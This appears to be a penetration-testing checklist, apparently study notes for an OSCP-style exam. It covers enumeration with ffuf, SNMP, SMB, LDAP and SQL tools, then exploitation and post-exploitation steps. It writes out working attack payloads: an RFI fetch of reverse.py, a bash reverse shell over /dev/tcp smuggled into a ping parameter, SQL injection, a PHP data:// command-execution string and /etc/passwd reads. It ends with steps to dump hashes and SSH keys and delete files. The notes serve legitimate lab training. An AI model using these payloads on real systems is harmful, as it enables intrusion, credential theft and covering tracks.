 # Useful Commands

<pre><code>☑ ffuf -w /opt/SecLists/Discovery/Web-Content/big.txt -u http://ip-address -recursion -recursion-depth 2
☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://ip-address -e .php,.log,.txt,.pl,.cgi,.pdf,.sh, .jsp, .do, .conf, .config
<strong>
</strong><strong>Fuzz LFI 
</strong>☐ ffuf -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://ip-address ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/blank-page.php?FUZZ=test" -fs 0 ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/evil.php?FUZZ=/etc/passwd"" -fs 0
</code></pre>

```
 RPC  
  ☐ rpcclient --user="" --command=enumprivs -N $ip
  ☐ rpcinfo -p $ip
  ☐ MS03-026 Microsoft RPC DCOM Interface Overflow (Critical)
  
 SMTP
  ☐ nc $ip 25 -vvv
  ☐ smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  ☐ smtp-user-enum -M VRFY -U /opt/SecLists/Discovery/names.txt -t $ip
  ☐ smtp-user-enum -M EXPN -D example.com /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  
 SNMP
  ☐ python3 snmpbrute.py -t $ip -p 161 -f /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt
  ☐ hydra -P /opt/SecLists/Discovery/SNMP-common-snmp/community-strings.txt -v $ip snmp
  ☐ snmpcheck -t $ip -c public
  ☐ snmpenum -t $ip
  ☐ snmpwalk -v2c -c $community_string $ip >> snmpv2c.txt
  ☐ snmpwalk -c public -v1 $ip 1 | grep hrSWRunName | cut -d\*\* -f 
  ☐ snmpbulkwalk -c public -v2c $ip >> snmpbulk.txt
  
 NFS 
  ☐ nmap -sV --script=nfs-showmount $ip
  ☐ shoutmount -e $ip
  
 LDAP
  ☐ ldapsearch -h $ip -p $port -x -s base
  ☐ ldapsearch -x -h $ip -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

SQL 
	MSSQL
	☐ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth 
	☐ select * from sys.sysusers;
	
	MYSQL
	☐ mysql -u root -p'root' -h $ip -P 3306 

 Automated Web Scans
	☐ autorecon $ip --nmap-append="--min-rate=2500" --exclude-tags="top-100-udp-ports" --dirbuster.threads=30 -vv
	☐ nikto -h http://192.168.179.132
	☐ nikto -ask=no -h http://$ip 2>&1
	☐ whatweb -a 3 $ip
	☐ Zap Crawler
	☐ wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive
	
LFI / RFI
  ☐ Windows LFI 
        ☐ C:\Windows\System32\drivers\etc\hosts
        ☐ C:\inetpub\logs\LogFiles\W3SVC1\
        ☐ C:\inetpub\wwwroot\web.config
  ☐ RFI
        ☐   hxxp://target.com/vuln?page=http://192.168.50.51/reverse.py
        
SQL Injection
  ☐ ' OR 1=1 -- 1 UNION SELECT first_name, password FROM users #


Command Injection
  ☐ http://target.com/vuln?ping=192.168.50.51 ; bash -i >& /dev/tcp/192.168.50.51/1337 0>&1    
  
/.git/
	wget -r http://$ip/.git
	git log
	git show
	git diff
	git fetch

Crying for Help
	☐ telnet -d -d -d -d -d $ip $port
	☐ for file in $(ls /opt/SecLists/Discovery/Web-Content); do ffuf -u http://$ip/FUZZ -w /opt/SecLists/Discovery/Web-Content/$file -e .conf,.php,.sh,.txt ; done		
	☐ update /etc/host. Ip address with computer name, etc.		
	☐ https://securing.dev/posts/hacking-the-oscp-recon/
	
```

Service Scanning

```
WebApp
  ☐	ffuf 
  ☐	gobuster
  ☐	Nessus
  ☐   Nikto
  ☐   wpscan
  ☐   dotdotpwn
  ☐   view source 
  ☐   davtest\cadevar
  ☐   droopscan
  ☐   joomscan
  ☐   LFI\RFI Test
  
Linux\Windows
  ☐   snmpwalk -c public -v1 ipaddress 1
  ☐   smbclient -L //ipaddress
  ☐   enum4linux ipaddress
  ☐   showmount -e ipaddress port
  ☐   rpcinfo
  ☐   Enum4Linux

Anything Else
  ☐   nmap scripts (locate *nse* | grep servicename)
  ☐   hydra
  ☐  MSF Aux Modules
  ☐  Download the softward

  ☐ page=data://text/plain,<?php%20echo%20system('ls');?>"
  ☐ page=php://filter/convert.base64-encode/resource=admin.php
```

Exploitation ☐ Gather Version Numbes ☐ Searchsploit ☐ Default Creds ☐ Creds Previously Gathered ☐ Download the software

Post Exploitation

```
Linux
  ☐   linux-local-enum.sh
  ☐   linuxprivchecker.py
  ☐   linux-exploit-suggestor.sh
  ☐   unix-privesc-check.py

Windows
  ☐   wpc.exe
  ☐   windows-exploit-suggestor.py
  ☐   windows_privesc_check.py
  ☐  	windows-privesc-check2.exe
```

Priv Escalation ☐ acesss internal services (portfwd) ☐ add account ☐ https://guif.re/windowseop - Windows Privilege Escalation ☐ https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS - WinPEAS ☐ Unquoted Paths ☐ DLL Hijacking ☐ Insecure backups

Lateral Movement ☐ Mimikatz - Know the command! ☐ Password Hashes (Hashcat, Pass-The-Hash, Ticket technique) - impacket-psexec, evil-winrm, or xfreerdp

Windows ☐ List of exploits

Linux ☐ sudo su ☐ KernelDB ☐ Searchsploit

Final ☐ Screenshot of IPConfig\WhoamI ☐ Copy proof.txt ☐ Dump hashes ☐ Dump SSH Keys ☐ Delete files
